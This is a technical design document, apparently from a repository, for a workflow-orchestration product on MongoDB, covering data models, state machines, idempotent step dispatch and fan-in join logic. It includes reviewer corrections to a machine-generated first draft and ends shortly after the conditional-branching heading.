





# Axon Workflow Orchestration — Technical System Design

> ## Review status
>
> **All sections hand-verified. 2026-08-12.**
>
> The first draft was machine-generated and carried **21 substantive defects** — two that made it
> unimplementable, two that were critical security holes, and one that silently deleted the
> product's differentiating capability. Every section has since been reviewed against source.
> Corrections are left inline as block quotes rather than silently applied, so the reasoning is
> reviewable and the same mistakes are not reintroduced.
>
> | Section | Status | Defects fixed |
> |---|---|---|
> | 1. Data model | ✅ Reviewed | 4 |
> | 2. Execution engine | ✅ Reviewed | 7 |
> | 3. Concurrency and correctness | ✅ Reviewed | 3 |
> | 4. Security | ✅ Reviewed | 2 (1 critical) |
> | 5. API surface | ✅ Reviewed | 4 (1 critical) |
> | 6. Frontend architecture | ✅ Reviewed | 5 |
> | 7. Migration and rollout | ✅ Reviewed | 2 |
> | 8. Observability | ✅ Reviewed | 2 |
> | 9. Rejected alternatives | ✅ Reviewed | 1 |
>
> ### Unresolved — decide before implementation starts
>
> 1. **MongoDB replica set.** Transactions are load-bearing for §2.3.3 and §3.1, and fail on the
>    standalone `mongo:7` in `docker-compose.yml`. Convert dev Mongo to a single-node replica set,
>    or restructure completion to single-document atomic updates.
> 2. **Role separation on `allowedAgents`** (§4.2). Without it, the cross-segment exfiltration
>    control is operational review, not product enforcement. Retrofitting a permission boundary
>    after workflows exist is far more expensive.
> 3. **Egress allowlisting** (§4.4). A workflow author can route an org-held secret to an arbitrary
>    URL. Accepted for v1, but it is a known gap, not a closed one.
> 4. **Agent nonce-set overflow** (`connection.rs:347-349`). Confirm behaviour at 10,000 entries;
>    if the set clears, old nonces become replayable. Pre-existing, out of scope here, still needs
>    an answer.
> 5. **Re-estimate the timeline.** The original "4 weeks" predates the agent protocol work, the
>    replica-set dependency, and the secret-binding model.

**Document Version:** 1.0  
**Date:** August 2026  
**Status:** Design (not yet implemented)  
**Product:** Workflow Orchestration (Product 2) — separate from Job Scheduler (Product 1)

---

## Executive Summary

This document specifies the design for a workflow-orchestration product built on Axon's existing execution substrate (distributed locks, HMAC dispatch signing, fencing tokens, audit logging, and agent sandboxing).

**Key design decisions:**

1. **Workflow as first-class entity** — distinct from the job scheduler. Workflows are DAGs of steps with data passing, conditional branching, and fan-out/fan-in, entirely separate from the `Job` model.

2. **Immutable versioning** — a workflow definition is immutable; changes create a new version. In-flight runs pin to a version, unaffected by edits.

3. **At-least-once + idempotent execution** — reuse Axon's distributed-lock infrastructure and fencing tokens to guarantee idempotent step execution without duplicating work.

4. **Event-driven, not polled** — the execution engine does not poll the database in a hot loop. Redis-backed job queues and Socket.IO push events drive progress.

5. **Minimal v1** — condition branches (if/else), fan-out (parallel steps), and fan-in (join) semantics cover 80% of use cases. No sub-workflows, loops, human gates, or scheduled triggers in v1.

6. **Multi-tenancy enforced at the model layer** — every document is org-scoped; queries filter by org. Data leaks are prevented by schema design, not runtime discipline.

---

## 1. Data Model

### 1.1 Workflow

**Purpose:** The **mutable** container and current draft of a DAG. It is the thing a user edits.
Immutability lives in `WorkflowVersion` (1.2) — an earlier draft of this document called
`Workflow` immutable, which contradicts both `archivedAt` below and the whole point of versioning.
A run never references `Workflow` for its definition; it references a frozen `WorkflowVersion`.

```typescript
interface WorkflowDocument {
  _id: ObjectId
  orgId: ObjectId              // Multi-tenancy boundary
  name: string                 // e.g. "Daily ETL Pipeline"
  description: string
  
  // DAG structure
  steps: Step[]                // Defined below
  edges: Edge[]                // From step A to step B, with optional condition
  
  // Metadata
  createdBy: ObjectId          // User who created it
  createdAt: Date
  archivedAt: Date | null      // Soft delete; queries filter archived: null
  
  // Tags for filtering/searching
  tags: string[]
  
  // Limits (enforced at schema, not at runtime)
  config: {
    maxStepTimeoutMs: number   // e.g., 3600000 (1 hour), bounds per-step timeout
    maxRunDurationMs: number   // e.g., 86400000 (24 hours), bounds total run time
  }
}

interface Step {
  id: string                           // Unique within this workflow (e.g., "step-1")
  name: string
  description: string

  // WHERE it runs. This is the differentiating capability — see note below.
  target: AgentTarget

  command: 'http' | 'shell'
  payload: HttpPayload | ShellPayload  // Reuses Job model's payload types

  // How this step's incoming edges combine. Join is a property of the NODE,
  // not of each edge — see note below.
  join: 'all' | 'any' | { nOf: number }   // default 'all'

  // Execution control
  timeout: number                      // ms; validated at runtime against config.maxStepTimeoutMs
  idempotent: boolean                  // false ⇒ builder warns when retries are enabled (see 3.2)
  retryPolicy: {
    maxAttempts: number                // total attempts including the first
    backoffMs: number                  // base delay
    backoffMultiplier: number          // exponential factor
    maxBackoffMs: number               // cap
  }

  // Input/output
  inputMapping: Record<string, any>    // static data + references to prior step outputs
  outputSchema: object | null          // JSON Schema; v1: stored, not enforced
}

/**
 * Fan-out lives here. A step either targets one agent, or expands across a set
 * of agents — producing one StepRun per matched agent.
 */
type AgentTarget =
  | { mode: 'single'; agentId: ObjectId }
  | { mode: 'fanout'; agentIds: ObjectId[]; maxParallel: number }
  | { mode: 'fanout'; tag: string; maxParallel: number }   // resolved at run start, then frozen

interface Edge {
  from: string                         // source step id
  to: string                           // destination step id
  // A guard on THIS edge. If it evaluates false, the edge does not activate.
  // Branching is expressed as two guarded edges out of one node, not as
  // embedded target paths.
  condition?: {
    expression: string                 // e.g. "$.steps['step-1'].exitCode === 0"
  }
}

interface HttpPayload {
  url: string
  method: 'GET' | 'POST' | 'PUT' | 'PATCH' | 'DELETE'
  headers?: Record<string, string>
  body?: any
}

interface ShellPayload {
  command: string
}
```

#### Why `target` replaced `agentId` — this is the product, not a detail

The first draft had `agentId: ObjectId` with the comment *"Assumes single agent for v1."* That
choice silently removes the one capability that differentiates this product. **"Run this across
50 machines and collect the results" is the thing n8n and Temporal cannot do into networks they
cannot reach, and RMM tools cannot express as a workflow.** With one agent per step, "fan-out"
degrades to *"several different steps run concurrently"* — which every orchestrator already does.

`AgentTarget` makes fan-out a first-class property of a step. A `fanout` step produces **N
`StepRun` documents**, one per agent, sharing a `stepId` and distinguished by `agentId`. The step
is complete when its `join` condition is satisfied across those N runs. `maxParallel` bounds
concurrent dispatch so a 500-agent fan-out does not saturate the dispatcher.

For `tag` mode the agent set is **resolved once at run start and frozen into the `WorkflowRun`**.
Re-resolving mid-run would make the DAG mutate underneath itself and break the versioning
guarantee.

#### Why `join` moved from `Edge` to `Step`

Join semantics describe how a node combines its *incoming* edges. Placing `joinType` on each edge
allows two edges into the same node to declare `all` and `any` respectively — a contradiction with
no defined resolution. On the node it is unambiguous and validates trivially.

#### Why `condition.paths` was removed

The first draft's `Edge` carried both `to` and `condition.paths.{true,false}` naming target steps
— two competing representations of the same fact, with no stated precedence. An implementer could
not tell which wins. Branching is now: **one guarded edge per branch**. An `if/else` is two edges
out of the same node with complementary guards. This is the standard representation, it validates
as a plain DAG, and it renders directly in the builder.

**Constraints (enforced at BOTH schema and runtime — schema-only was the earlier error):**
- Workflow name is unique per org (`{ orgId: 1, name: 1 }`).
- `steps.length ≤ 1000`; `edges.length ≤ 2000`.
- Graph must be acyclic — validated on save and again at run start.
- Every `edge.from` / `edge.to` must reference an existing `step.id`.
- `timeout ≤ config.maxStepTimeoutMs`, re-checked at dispatch, not only at save.
- `archivedAt` is a soft delete; queries default to `{ archivedAt: null }`.

```typescript
interface WorkflowConfig {          // referenced by Workflow and WorkflowVersion
  maxStepTimeoutMs: number          // e.g. 3_600_000 (1h)
  maxRunDurationMs: number          // e.g. 86_400_000 (24h)
  maxOutputBytes: number            // per StepRun, e.g. 1_048_576 (1 MiB)
  maxFanout: number                 // max StepRuns a single fan-out step may create
}
```

---

### 1.2 WorkflowVersion

**Purpose:** Immutable snapshot of a workflow at a point in time. Enables in-flight runs to use a locked-in definition.

```typescript
interface WorkflowVersionDocument {
  _id: ObjectId
  workflowId: ObjectId                 // Back-reference to the parent workflow
  orgId: ObjectId                      // Denormalized for query efficiency
  versionNumber: number                // Auto-incrementing; e.g., 1, 2, 3
  
  // Locked-in definition (copied at version time)
  steps: Step[]
  edges: Edge[]
  config: WorkflowConfig
  
  // Metadata
  createdBy: ObjectId
  createdAt: Date
  releaseNotes: string | null          // What changed
  isPublished: boolean                 // e.g., auto-published on creation, or manual approval (v2 feature)
}
```

**Invariant:** WorkflowVersion is immutable once created. No updates or deletes.

**Indexes:**
- `{ workflowId: 1, versionNumber: 1 }` — find specific version.
- `{ workflowId: 1, isPublished: 1 }` — find active version for a workflow.

---

### 1.3 WorkflowRun

**Purpose:** A single execution instance of a workflow. Tracks overall run state and step results.

```typescript
interface WorkflowRunDocument {
  _id: ObjectId
  workflowId: ObjectId                 // Which workflow definition
  workflowVersionId: ObjectId          // Which version (immutable)
  orgId: ObjectId
  
  // Execution state
  status: 'PENDING' | 'RUNNING' | 'SUCCEEDED' | 'FAILED' | 'PAUSED' | 'CANCELLED'
  
  // Timeline
  createdAt: Date
  startedAt: Date | null               // When first step began
  completedAt: Date | null             // When run reached terminal state
  
  // Trigger metadata
  triggeredBy: {
    type: 'manual' | 'webhook' | 'schedule' | 'event'  // v1: manual + webhook only
    userId?: ObjectId                  // If manual
    sourceId?: string                  // e.g., webhook ID, event type
  }
  
  // Input context
  input: Record<string, any>           // Variables passed to the run
  
  // Frozen fan-out resolution (see AgentTarget). Resolved once at run start.
  resolvedTargets: Record<string, ObjectId[]>   // stepId -> agentIds

  // Counters only. Step state is derived from StepRun documents, never duplicated here.
  progress: {
    total: number
    succeeded: number
    failed: number
    running: number
  }

  // Error tracking
  error: {
    message: string
    failedStepId: string | null
    failedAt: Date | null
  } | null
}
```

#### Why `outputs` and the `queue` arrays were removed — the first draft could not be built

**`outputs: Record<string, any>` on `WorkflowRun` is fatal.** MongoDB enforces a hard **16 MB BSON
document limit**. With `steps.length ≤ 1000` and a 1 MiB output cap per step, the aggregated
`outputs` map alone reaches ~1 GB — 64× over the limit. The run would fail on write partway
through with `BSONObjectTooLarge`, mid-execution, after side effects had already occurred. No
amount of tuning fixes this; the shape is wrong.

**Step outputs live on `StepRun`, one document each**, where the 1 MiB cap is enforced per
document and the 16 MB ceiling is never approached. Input mapping resolves references by querying
the relevant `StepRun`s, not by reading a blob off the run.

**The `queue.{pending,ready,active}` arrays were also removed**, for a different reason: they
duplicate state that `StepRun.status` already holds. Two sources of truth for the same fact drift,
and the drift is silent. Worse, every step transition in a 1000-step run would `$pull`/`$push`
against the *same* `WorkflowRun` document — turning one document into a write-contention hotspot
across every engine worker, exactly the serialization the design is trying to avoid.

Readiness is computed by querying `StepRun` state for the run's predecessors. `progress` holds
counters only, updated with `$inc`, which is commutative and contention-tolerant.

**Constraints:**
- `resolvedTargets` total entries ≤ `config.maxFanout × steps.length`.
- `progress` counters are `$inc`-only; never recomputed by read-modify-write.

**Indexes:**
- `{ orgId: 1, status: 1, createdAt: -1 }` — list runs by org, filtered by status.
- `{ workflowId: 1, createdAt: -1 }` — audit trail of runs for a workflow.
- `{ orgId: 1, createdAt: -1 }` — global run feed.

---

### 1.4 StepRun

**Purpose:** Execution record for a single step within a run. One document per step execution per run.

```typescript
interface StepRunDocument {
  _id: ObjectId
  workflowRunId: ObjectId              // Parent run
  stepId: string                       // e.g., "step-1" (refers to step.id in workflow)
  orgId: ObjectId                      // Denormalized
  
  // Execution state
  status: 'PENDING' | 'READY' | 'RUNNING' | 'SUCCEEDED' | 'FAILED' | 'SKIPPED' | 'TIMEOUT'
  attempt: number                      // 1, 2, 3... based on retry policy
  maxAttempts: number                  // From step.retryPolicy.maxAttempts
  
  // Timeline
  createdAt: Date                      // When step run doc was created
  readyAt: Date | null                 // When dependencies were met
  startedAt: Date | null               // When dispatch sent to agent
  completedAt: Date | null             // When final status reached
  
  // Execution details
  agentId: ObjectId
  fencingToken: number | null          // Reuse distributed-lock fencing token (checked on receipt)
  jobExecutionId: string | null        // Dispatch ID from dispatchCommandToAgent
  
  // Input/output
  input: Record<string, any>           // Resolved from step.inputMapping
  output: Record<string, any> | null   // Agent's response payload
  
  // Error tracking
  error: {
    code: string                       // e.g., 'TIMEOUT', 'AGENT_ERROR', 'EXECUTION_FAILED'
    message: string
    stderr: string | null              // Last 10KB of stderr from agent
  } | null
  
  // Skip condition (fan-in/branching)
  skippedReason?: string               // e.g., "previous step failed; branch not taken"
  
  // Audit & observability
  durationMs: number | null
  tags: string[]                       // For filtering (e.g., "retried", "slow")
}
```

**Identity — one `StepRun` per `(workflowRunId, stepId, agentId)`.**

A `fanout` step produces N `StepRun` documents sharing a `stepId`, one per resolved agent. A
`single` step produces exactly one. This is why `agentId` is part of the identity and not just a
detail on the record.

**Constraints:**
- `output` and `error.stderr` are each capped at `config.maxOutputBytes` (default 1 MiB),
  truncated on write, never rejected — a truncated result is more useful than a lost one.
- `attempts.length ≤ step.retryPolicy.maxAttempts`, which is itself bounded. The array is the
  audit trail of retries; it does not grow without limit.

**Resolving the earlier contradiction:** the first draft stated both *"One `StepRun` per step per
run **per attempt**"* and *"retries increment `attempt` **within the same step run**"* in the same
sentence. These are mutually exclusive designs and an implementer could not choose between them.

**Decided: one document per `(run, step, agent)`, with attempt history embedded.** Retries mutate
that single document and append to `attempts[]`. Rationale: it keeps the unique index below
meaningful — which is what makes duplicate dispatch detectable — whereas a document-per-attempt
makes "has this step already run?" a scan rather than a lookup.

```typescript
  attempts: Array<{
    n: number                          // 1-based
    startedAt: Date
    completedAt: Date | null
    fencingToken: number
    outcome: 'SUCCEEDED' | 'FAILED' | 'TIMEOUT' | 'ACK_TIMEOUT'
    errorCode: string | null
  }>
```

**Indexes:**
- `{ workflowRunId: 1, stepId: 1, agentId: 1 }` — **UNIQUE.** This is the idempotency guard: a
  replayed create fails with a duplicate-key error instead of silently producing a second
  execution record. Do not omit the uniqueness.
- `{ workflowRunId: 1, status: 1 }` — find ready/running steps in a run (drives readiness
  evaluation now that the `queue` arrays are gone).
- `{ orgId: 1, createdAt: -1 }` — per-org audit of step executions.

---

### 1.5 Relationship to Existing Job Model

**Decision: Reuse the Job model as a low-level execution primitive; do not replace it.**

- WorkflowRun is a "virtual job" — it does not have a Job record.
- Each step within a run that executes (not skipped) dispatches as a command to an agent.
- The dispatch is **not** recorded as a Job; it is recorded as a StepRun with a reference to the dispatch ID.
- If we later want to expose workflow steps in the job audit trail, we can: create a synthetic Job record or store a link in StepRun.

**Rationale:**
- The Job model is tightly coupled to the scheduler's concepts (cron schedules, execution windows, sinks).
- Workflows have a different lifecycle: versioning, live run DAG traversal, cross-agent data passing.
- Separating the models allows each product to evolve independently.
- When we eventually support workflow triggers (webhooks, events, scheduled), those become different control paths than the cron scheduler.

---

## 2. Execution Engine

### 2.1 State Machine — WorkflowRun



**States:**
- **PENDING**: Run created, awaiting start signal (manual trigger).
- **RUNNING**: Steps are being executed. Run transitions through this state as the DAG is traversed.
- **SUCCEEDED**: All steps completed successfully, or skipped due to condition branches.
- **FAILED**: A step failed and exhausted retries; run is terminal.
- **PAUSED**: Execution suspended; can resume (v2 feature; v1 does not pause).
- **CANCELLED**: User cancelled the run mid-flight or after creation.

**Legal transitions:**
- PENDING → RUNNING (on start or auto-start).
- RUNNING → SUCCEEDED, FAILED, or PAUSED.
- PAUSED → RUNNING (resume) or CANCELLED.
- RUNNING or PAUSED → CANCELLED (at any time).

- **EXPIRED**: The run exceeded `config.maxRunDurationMs`. Terminal.

**Invariant:** Once a run reaches a terminal state (SUCCEEDED, FAILED, CANCELLED, EXPIRED), it
does not transition again.

> **Correction — the run had no timeout path.** `config.maxRunDurationMs` is defined in §1 but the
> first draft's state machine gave it no transition, so a run whose agent went permanently silent
> had **no terminal state and would sit in RUNNING forever**. That violates the project's bounded-
> execution rule directly.
>
> Added: `RUNNING → EXPIRED` when `now - startedAt > config.maxRunDurationMs`. A reaper job scans
> `{ status: 'RUNNING', startedAt: { $lt: cutoff } }` on a fixed interval, marks the run EXPIRED,
> and cancels its non-terminal `StepRun`s. The reaper is itself bounded — it processes at most N
> runs per tick.

---

### 2.2 State Machine — StepRun



**States:**
- **PENDING**: Dependencies not yet satisfied.
- **READY**: Dependencies met, queued for execution.
- **RUNNING**: Dispatch sent to agent, awaiting result.
- **SUCCEEDED**: Agent completed successfully.
- **FAILED**: Agent returned failure code (non-zero exit, HTTP error, exception).
- **TIMEOUT**: Exceeded timeout; will retry if attempts remain.
- **SKIPPED**: Condition evaluated to false, or predecessor failed and this step is in a non-recovering branch.

**Legal transitions:**
- PENDING → READY (when the join condition is satisfied).
- PENDING → SKIPPED (guard evaluates false, or no incoming edge activated).
- READY → RUNNING (on dispatch).
- READY → SKIPPED (guard false after dependencies met).
- RUNNING → SUCCEEDED, FAILED, or TIMEOUT.
- FAILED, TIMEOUT → READY — **only if `attempts.length < maxAttempts`**.
- PENDING, READY, RUNNING → CANCELLED (run cancelled or expired).
- SUCCEEDED, SKIPPED, CANCELLED are terminal. FAILED/TIMEOUT are terminal **iff `terminal: true`**.

> **Correction — `FAILED` was two different states with one name.** The first draft's diagram had
> both `E["FAILED"]` and `F["FAILED (terminal)"]`, and its transition list read *"FAILED, TIMEOUT →
> FAILED/TIMEOUT (if retries exhausted; terminal)"* — a self-transition standing in for
> terminality. The consequence is concrete: **given `status === 'FAILED'`, no consumer can tell
> whether the step will retry or is finished.** The readiness evaluator, the UI, and the run
> roll-up all need that distinction, and all three would guess.
>
> Resolved by adding an explicit `terminal: boolean` on `StepRun`, set when
> `attempts.length === maxAttempts`. `status` describes the outcome; `terminal` describes whether
> the machine is done with it. Do not overload one field with both.
>
> **`CANCELLED` was also missing entirely.** Runs can be cancelled at any time, but the step
> machine had no state for a step caught mid-flight — leaving in-flight steps undefined on the one
> path most likely to be exercised in production. Note that cancelling a `RUNNING` step stops the
> engine waiting for it; it does **not** stop the command already executing on the agent. Say this
> plainly in the UI rather than implying a kill.

---

### 2.3 Execution Flow

#### 2.3.1 Run Initialization



**Key points:**
- WorkflowRun is created in PENDING state immediately to give the user a run ID.
- StepRuns are created upfront, all in PENDING state.
- A background worker (or Lambda/serverless function) processes "run:start" and initializes execution.
- Steps with no dependencies become READY immediately.
- Steps with dependencies remain PENDING until their predecessors complete.

---

#### 2.3.2 Step Dispatch and Idempotency



**Idempotency:**
- When a step becomes READY, an engine worker acquires a distributed lock keyed
  `step:${stepRunId}:lock`, receiving a fencing token.
- The token is written to `StepRun.attempts[n].fencingToken` and gates the **result write**: a
  worker whose token is lower than the last recorded token has its write rejected.
- If a worker crashes after dispatch but before recording the ACK, the lock TTL expires and
  another worker retries as a **new attempt**.

> ### ⚠️ Correction — the first draft's idempotency story does not work, and is not free
>
> Three claims in the original were checked against source and are false.
>
> **1. "The agent validates the fencing token against the `DISPATCH_SIGNING_KEY`."**
> This conflates two unrelated mechanisms. `DISPATCH_SIGNING_KEY` is the HMAC-SHA256 key used for
> *signature verification*. A fencing token is a monotonic counter compared against a last-seen
> value. Neither validates the other.
>
> **2. "The agent receives the same token on retry; if it already executed this token, it replies
> with the cached result."**
> `grep -rn fencing agent/src/` returns **no matches**. The agent has never seen a fencing token.
> Its signed canonical message (`agent/src/connection.rs:428`) is exactly
> `{jobId, command, agentId, nonce, ts, allowedCommands}` — there is no token field to send one in.
> There is also **no result cache**: on a repeated nonce the agent *rejects* the dispatch with
> `REPLAY_DETECTED` (`connection.rs:337-342`) rather than returning a prior result.
>
> **3. "No new idempotency logic is needed."**
> Substantial new logic is needed on both sides, and it is a **wire-protocol change** — which by
> project rule means backend and agent ship together or the change is versioned.
>
> **Why the retry path is broken as designed.** The agent's replay defence is a nonce set, and
> nonces are per-dispatch. So on a retry after a lost ACK:
> - Send a **fresh nonce** → the agent sees an unrelated dispatch and **executes the command a
>   second time**. No deduplication occurs at all.
> - Reuse the **same nonce** → the agent rejects it as a replay and returns an error, so the step
>   **fails despite having succeeded**.
>
> Neither branch produces the intended behaviour. The nonce set defends against a *malicious*
> replay; it was never a deduplication cache, and cannot be used as one.
>
> ### What must actually be built
>
> **Wire protocol (both sides, shipped together or versioned):** add `stepRunId` and `attempt` to
> the dispatch payload and include both in the signed canonical message. Changing `canonical_msg`
> invalidates every signature, so this is a coordinated release.
>
> **Agent-side execution cache:** keyed `(stepRunId, attempt)` → `{outcome, exitCode, truncated
> output}`. On a hit, re-ACK the cached result **without re-executing**. Requirements:
> - Bounded — LRU with a fixed maximum, like `NONCE_SET_MAX_SIZE`. An unbounded map keyed on step
>   id is a memory leak with a delayed fuse.
> - Written **before** the command runs (as `IN_PROGRESS`), then updated with the outcome.
>   Writing only on completion leaves the crash window wide open.
> - Survives reconnect but need not survive process restart — a restarted agent has lost the
>   process it would be deduplicating against.
>
> **The residual window stays open.** If the agent dies after executing but before persisting the
> cache entry, the retry executes again. This is the ceiling on any at-least-once system and is why
> §3.2 states plainly that side effects can occur twice, and why `Step.idempotent` exists.
>
> **Pre-existing item worth checking separately:** `connection.rs:347-349` handles nonce-set
> overflow at 10,000 entries. Confirm what it does on overflow — if it clears the set, old nonces
> become replayable. Out of scope here, but verify it.

---

#### 2.3.3 Dependency Resolution and Fan-In

**Fan-out (parallel steps):**
When a step completes, the engine checks all edges originating from it. All steps with that step as a prerequisite become ready.

**Fan-in (join):**
When a step has multiple predecessors, it remains PENDING until all (or any, configurable per edge) are complete.

> **The first draft's resolver was rewritten.** It had four problems: it iterated
> `run.stepRuns` and read `incomingEdges[0].joinType` — both fields removed in §1; it re-scanned
> every step and every edge on each completion, which at the stated ceilings (1000 steps × 2000
> edges) is ~2M operations per completion and ~2×10⁹ per run; it treated `FAILED` as
> simultaneously "done" and "failed" in overlapping branches; and `stepRuns.find(s => s.stepId ===
> e.from)` returns only the **first** match, so it silently mis-evaluates any fan-out predecessor.

**Evaluation is event-driven and scoped to successors.** A step completing can only unblock its
direct successors, so there is never a reason to scan the whole graph.

```typescript
/**
 * Called once when a StepRun reaches a terminal state.
 * Cost is O(out-degree × in-degree), not O(steps × edges).
 */
async function onStepTerminal(run, version, completedStepId, session) {
  const successorIds = version.adjacency.out[completedStepId] ?? [];

  for (const succId of successorIds) {
    const incoming = version.adjacency.in[succId];          // precomputed at publish time
    const succ = version.steps.find(s => s.id === succId);

    // Fan-out aware: a predecessor may have many StepRuns sharing one stepId.
    const predStates = await StepRun.aggregate([
      { $match: { workflowRunId: run._id, stepId: { $in: incoming.map(e => e.from) } } },
      { $group: { _id: '$stepId',
                  total:    { $sum: 1 },
                  finished: { $sum: { $cond: [{ $in: ['$status', TERMINAL] }, 1, 0] } },
                  ok:       { $sum: { $cond: [{ $in: ['$status', ['SUCCEEDED','SKIPPED']] }, 1, 0] } } } },
    ]).session(session);

    // An edge activates only if its predecessor group is fully finished AND its guard passes.
    const activated = incoming.filter(e => {
      const st = predStates.find(p => p._id === e.from);
      if (!st || st.finished < st.total) return false;       // fan-out group incomplete
      return evaluateGuard(e.condition, run, e.from);
    });

    const satisfied = joinSatisfied(succ.join, activated, incoming, predStates);
    if (satisfied === 'PENDING') continue;

    if (satisfied === 'SKIP') {
      await markSkipped(succ, run, 'no incoming edge activated', session);
    } else {
      await markReady(succ, run, session);                   // creates N StepRuns if fan-out
    }
  }
}

function joinSatisfied(join, activated, incoming, predStates) {
  const allFinished = incoming.every(e => {
    const st = predStates.find(p => p._id === e.from);
    return st && st.finished >= st.total;
  });

  if (join === 'any')  return activated.length > 0 ? 'READY'
                            : (allFinished ? 'SKIP' : 'PENDING');
  if (join?.nOf)       return activated.length >= join.nOf ? 'READY'
                            : (allFinished ? 'SKIP' : 'PENDING');
  // 'all' (default): every incoming edge must have activated
  if (!allFinished)    return 'PENDING';
  return activated.length === incoming.length ? 'READY' : 'SKIP';
}
```

**Semantics this pins down that the first draft left ambiguous:**

- **Failure does not silently become "skip".** A predecessor ending `FAILED`/`TIMEOUT` with
  `terminal: true` does not activate its edge. Under a default `all` join the successor is
  `SKIPPED`; under `any` it still runs if another edge activated. The earlier version marked
  successors `SKIPPED` whenever *any* predecessor failed, even under `any` — defeating the purpose
  of `any`.
- **`any` no longer fires on the first predecessor to merely finish.** It fires on the first to
  *activate* — finish successfully **and** pass its guard. Firing on a failed predecessor was a
  bug.
- **Fan-out groups are atomic.** A `fanout` predecessor's edge activates only when all its
  `StepRun`s are terminal, evaluated by the `$group` above rather than by `find()`.
- **`adjacency.in` / `adjacency.out` are precomputed once** when a `WorkflowVersion` is published
  and stored on it. The graph is immutable per version, so this is safe and removes the repeated
  `edges.filter()` scans.
- The whole function runs **inside the completion transaction** (`session`), which is what makes
  §3.1's "condition eval on stale data" mitigation actually true.

---

#### 2.3.4 Conditional Branching

**Design:** Conditions are evaluated **after** the predecessor step completes.

> **Correction — there is no `eval` here, safe or otherwise.** The first draft called an undefined
> `safeEval(expression, scope)` while simultaneously commenting *"must be sandboxed"* and
> concluding *"Evaluation is NOT sandboxed in v1."* Those cannot all hold. Guard expressions are
> attacker-reachable input authored by any user who can edit a workflow, and they run **in the
> control plane**, inside the completion transaction — the most privileged place in the system. A
> sandbox escape there is total compromise, not a step-level one.
>
